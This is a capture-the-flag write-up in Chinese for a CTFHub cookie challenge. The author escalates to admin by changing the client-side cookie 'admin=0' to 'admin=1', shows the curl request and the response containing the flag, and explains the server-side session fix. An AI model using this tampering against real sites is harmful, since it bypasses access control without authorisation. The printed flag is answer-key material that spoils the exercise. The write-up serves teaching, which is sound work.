

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-af337ef430db0391.sandbox.ctfhub.com:10800 |
| Flag | ctfhub{f94bf433268b06ae84e48ef4} |

## 解题过程

打开靶场首页，页面提示 flag 只给管理员看，正常访问拿不到。按 F12 打开开发者工具，在 Application → Storage → Cookies 里看到这个站只有一个 Cookie，名字是 `admin`，值是 `0`——说明服务器是直接读这个值来判断"你是不是管理员"的。我把值改成 `1` 刷新页面，页面内容就变了，能拿到 flag 了。为了确认不是缓存或者别的原因，我又在终端里用 `curl -H "Cookie: admin=1"` 重新请求了一次首页，响应体里直接返回 `ctfhub{f94bf433268b06ae84e48ef4}`，和浏览器里看到的一致。整个操作没有登录、没有密码，只改了一个客户端自己存的值。

## 关键请求/响应

修改后的请求（`Cookie` 从 `admin=0` 改成 `admin=1`）：

```http
GET / HTTP/1.1
Host: challenge-af337ef430db0391.sandbox.ctfhub.com:10800
Cookie: admin=1
```

等价的终端复现命令与响应体：

```bash
curl -H "Cookie: admin=1" http://challenge-af337ef430db0391.sandbox.ctfhub.com:10800
```

```text
HTTP/1.1 200 OK

ctfhub{f94bf433268b06ae84e48ef4}
```

## 原理与复盘

Cookie 放在**请求头**里，浏览器每次访问同一域名都会自动带上，服务器靠它认出"你是上一次那个用户"，所以它只是一个客户端自己保存、自己发送的字符串。把权限判断放在 Cookie 的值里，等于把门锁交给用户：值是谁都能改的，改成 `admin=1` 就成了管理员。正确做法是 Cookie 里只放一个不可预测的 session id，真正的身份和权限存在服务端（Session），每次请求由服务端查表判断。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
